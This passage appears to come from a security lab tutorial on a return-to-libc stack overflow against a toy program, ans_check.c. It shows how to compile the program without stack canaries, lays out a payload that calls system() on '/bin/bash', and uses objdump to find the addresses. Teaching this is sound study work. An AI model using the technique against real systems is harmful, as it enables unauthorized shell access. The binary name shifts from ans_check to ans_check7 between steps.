 ```c
    } else {
        printf("Wrong answer!\n");
    }

    printf("About to exit!\n");
    fflush(stdout);

    system("/bin/date");
    fflush(stdout);

}
```

Compile <code>ans_check.c</code> with the <code>-fno-stack-protector</code> option to disable stack canaries but with NX enabled, and run the program:
```bash
$ touch ans_check.c
$ vim ans_check.c
$ gcc -g -m32 -no-pie -fno-stack-protector ans_check.c -o ans_check
$ ./ans_check forty-one
Wrong answer!
About to exit!
Thu Oct  6 11:27:14 EDT 2022
```

The payload for the return-to-libc exploit should have the following structure:
<p id="console">PADDING | &system() | &exit_path | &cmd_string</p>
Ignoring the padding, the first two values are addresses of code. The third value is the address of a properly terminated string containing the same of the program that we wish to execute. In our examples, we will use "<code>/bin/bash</code>". The amount of <code>PADDING</code> must be such that the <code>&system()</code> value overwrites the return address on the stack.

### Addresses We Need

Let's find out the address of the <code>system()</code> standard C library function:
```bash
$ objdump -D ans_check7 | grep system
08049110 <system@plt>:
 8049363:       e8 a8 fd ff ff          call   8049110 <system@plt>
```
We shall use the address <code>0x08049110</code> for <code>&system()</code>.

Find an address to serve as the <code>&exit_path</code>:
```bash
$ objdump -D ans_check7 | grep -A 30 \<main\>
080492ae <main>:
 ...
 80492ee:       6a 00                   push   $0x0
 80492f0:       e8 2b fe ff ff          call   8049120 <exit@plt>
 ...
 8049301:       e8 50 ff ff ff          call   8049256 <check_answer>
 8049306:       83 c4 10                add    $0x10,%esp
 ...
```
We shall use the address <code>0x080492ee</code> for <code>&exit(0)</code>. Additionally, it is shown above that the <code>check_answer()</code> function returns to the address <code>0x08049306</code>.

